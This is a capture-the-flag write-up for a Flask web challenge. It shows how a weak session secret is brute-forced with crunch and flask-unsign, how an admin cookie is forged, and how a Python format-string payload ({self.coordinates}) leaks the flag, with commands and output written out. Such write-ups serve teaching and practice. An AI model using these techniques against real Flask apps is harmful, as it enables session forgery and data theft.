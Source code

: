 # Find The Compass

## "Recon"

We're given the app's source code. By exploring the `__init__.py` we spot that the secret used to sign session cookies is generated through a "homemade" function which is usually a very bad sign.

```py
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in [int(char) for char in str(digits[randint(0, 9)]) * 4]]])).rjust(8, '0')   
```

By either analysing the code or printing a large number of time the result of this function, we get that it's an 8 digits max secret that's padded with 0's when the returned code's length is inferiour to 8. This is insecure because 8 digits code are 10 million possibilities which makes it bruteforceable. 

In order to bruteforce the secret we need a token, good point for us the app sets one as soon as you request the web server using the before_request Flask decorator :

```py
@app.before_request
def before_request():
    if not session.get('status'):
        session['status'] = 'guest'
    if not session.get('logged_in'):
        session['logged_in'] = False
    session['nonce'] = token_hex(32)
```

## Cookie crafting

We can retrieve a token, here I got `.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi_ke7HdQwGze-NhZDC6lU`

Using `flask-unsign` and `crunch` we can generate a wordlist and then bruteforce the token's secret.

```
╰─λ crunch 8 8 -t %%%%%%%% -o wordlist.txt
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 

crunch:  56% completed generating output

crunch: 100% completed generating output
╰─λ head wordlist.txt && tail wordlist.txt
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
99999990
99999991
99999992
99999993
99999994
99999995
99999996
99999997
99999998
99999999
```

```
╰─λ flask-unsign --unsign --cookie '.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi ke7HdQwGze-NhZDC6lU' --wordlist ./wordlist.txt --no-literal-eval
[*] Session decodes to: {'logged_in': False, 'nonce': '0b2e3846ad59a5c5e18a4ba2ea7a983e1322ddfe67013d52a064c279da220278', 'status': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6784 attempts
b'00006666'
```

The secret is `00006666`. Using this value let's craft a new cookie that will allow us to login (be careful, by checking the login function, it sets the status, logged_in to True and the username :))

```
╰─λ flask-unsign --secret '00006666' --sign --cookie '{"nonce":"aaaa", "status": "admin", "username": "admin", "logged_in": True}'
.eJyrVsrLz0tOVbJSSgQCJR2l4pLEktJiED8lNzMPKFBanFqUl5ibiiSUk5-enpoSD2RblRSVptYCABucF1Y.ZeR_Ww.KiwTMj54DnHVy5jvxPN2X47egfA
```

By adding this cookie to our browser, we get access to a panel that allows us to add reminders.

![Panel](img/panel.png)

## Format String 

Before going further, as we have the source code, let's check what we could do and if there are any spottable vulnerabilities. First thing that should catch our attention is in utils.py: 

```py
COMPASS = {
    # Here are the coordinates of the compass.
    'COORDINATES': open('flag.txt', 'r').read()
}
```

So the coordinates of the stolen compass are stored in a COMPASS dictionnary. We need to access the value of this compass dict, this can be done through various ways, RCE, SSTI or FormatString :). Going through the source code, the "panel" route is intereting: 

```py
@app.route('/panel', methods=['GET'])
def panel():
    if not authorized():
        return redirect(url_for('index'))
    reminders = Reminder.query.all()
    reminders_list = []
    # If a wise admin needs the coordinates of the compass, he can retrieve them.
    renderer = Renderer(COMPASS['COORDINATES'])
    for reminder in reminders:
        reminders_list.append([reminder.id, renderer.render(reminder.author.username , reminder.content)])
    return render_template('panel.html', reminders=reminders_list)
```

When listing the reminders, a "Renderer" object is created and we pass the value of the flag to the constructor. This behaviour is very unexpected, the comment tells us that only a wise admin needing the coordinates can retrieve them. Lets give a look the class that managed the Reminder object.

```py
from html import escape

class Renderer(object):
    """
    Proof of Concept to one day get rid of Jinja2. Who needs Jinja2 ?
    """
    def __init__(self, coordinates: str):
        # Only a wise administrator can retrieve the coordinates of the compass.
        self.coordinates = coordinates

    def render(self, author, content):
        author = escape(author)
        content = escape(content)
        htmlTemplate = f"<p><strong>{author}</strong>: {content}</p>"
        try:
            #Use escape for XSS protection
            return (htmlTemplate.format(self=self))
        except Exception as e:
            print(e)
            return "An error occured while rendering the reminder."
```

So this class renders the content of a reminder to HTML by using the escape function, the thing is we have "format" that's called twice on the user input. Once in `htmlTemplate` with the use of the `f"<string>"` and then at the return statement using `.format(self=self)`.

This allows any user that inputs a reminder to see its input rendered. Using the `self` keyword we can retrieve the flag with the following payload `{self.coordinates}` (as the coordinates have been set in the constructor of the object).